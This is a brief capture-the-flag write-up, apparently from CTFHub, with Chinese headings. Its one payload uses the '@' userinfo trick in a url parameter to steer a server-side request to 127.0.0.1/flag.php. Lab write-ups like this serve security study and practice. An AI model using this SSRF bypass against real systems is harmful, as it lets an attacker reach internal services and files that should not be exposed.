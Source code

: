 # 知识点
@

# 思路
payload
```
?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
```
![image.png](./images/20231017_2354284475.png)
